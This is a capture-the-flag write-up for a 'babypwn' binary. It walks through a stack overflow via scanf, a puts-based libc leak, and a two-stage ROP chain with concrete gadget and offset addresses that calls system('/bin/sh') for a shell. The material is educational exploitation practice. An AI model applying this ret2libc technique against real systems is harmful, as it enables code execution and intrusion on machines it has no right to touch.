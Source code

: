 A x64 binary file:

**babypwn: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=aceea8523337cd304e3835a461e68c809d12fc01, not stripped**

ELF protections:

So there's no canary, no PIE and no Fortify.

![proctections](baby_0.png)

There's the function copy() that will allow to save data on the stack with no boundries using scanf() and will cause a stack-based buffer overflow vulnerability. Since there's no canary, it's possible to overwrite RIP and get $PC.

![vuln](baby_1.png)

The challenge provided the libc but since ASLR is enabled, we need to leak an address from the there for being able to calculate base address and any other function from the library.

In this case, it's possible to utilize the function puts() to leak any GOT entry, including puts itself. 

It is possible to use the utility "ropper" to dump useful gadgets from the binary since there's no PIE to random them.

![gadget](baby_2.png)

So the ROP will be:

**pop_rdi; ret = 0x401203**

**puts_got     = 0x403fc8**

**puts_plt     = 0x401030**

This will leak the puts@LIBC address and we can calculate the offset to any other function address based on that, in this case system().

From their libc:

**root@mphx2-VM:/home/mphx2/ctfs/pwnuniversity/babypwn# readelf -s libc.so.6 | grep puts**

   **194: 0000000000072a40   441 FUNC    GLOBAL DEFAULT   14 _IO_puts@@GLIBC_2.2.5**
   
   **425: 0000000000072a40   441 FUNC    WEAK   DEFAULT   14 puts@@GLIBC_2.2.5**
   
So the libc base address will be the leaked address (puts@LIBC) - **0x72a40**. So the system():

**root@mphx2-VM:/home/mphx2/ctfs/pwnuniversity/babypwn# readelf -s libc.so.6 | grep system**

   **235: 000000000012cc00   104 FUNC    GLOBAL DEFAULT   14 svcerr_systemerr@GLIBC_2.2.5**

   **613: 0000000000045380    45 FUNC    GLOBAL DEFAULT   14 __libc_system@@GLIBC_PRIVATE**
  
 ** 1417: 0000000000045380    45 FUNC    WEAK   DEFAULT   14 system@@GLIBC_2.2.5**

So the system() will be libc base address + **0x45380**.

We need to re-run the application for being able to execute functions again. At first, I tried to use **main()=0x401169** but system() could not being executed mostly because the stack/registers were already populated. In the end, It was possible to re-run the scanf() using the function **copy()=0x401146** from the binary and use **system()+27** for executing /bin/sh.

So the first rop:

**pop_rdi; ret = 0x401203**

**puts_got     = 0x403fc8**

**puts_plt     = 0x401030**

**copy         = 0x401146**

The **/bin/sh** address is on the binary at **0x40302d** but could be calculated from the libc too.

![binsh](baby_3.png)

And then the second rop:

**pop_rdi; ret = 0x401203**

**bin_sh       = 0x40302d**

**system       = system@LIBC+27**

And shell!

![shell](baby_4.png)

